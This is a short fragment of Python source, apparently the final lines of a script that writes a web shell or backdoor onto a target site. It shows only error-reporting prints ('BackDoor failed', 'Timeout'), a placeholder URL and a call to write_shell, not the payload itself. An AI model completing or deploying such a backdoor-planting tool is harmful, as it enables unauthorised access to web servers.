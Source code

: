 ```python
        else:
            print ('[ - ] BackDoor failed: '+url+'[ - ]\n')
    except:
        print ('[ - ] Timeout: '+url+' [ - ]\n')

url = "http://xxx"
write_shell(url=url,headers=headers)

```

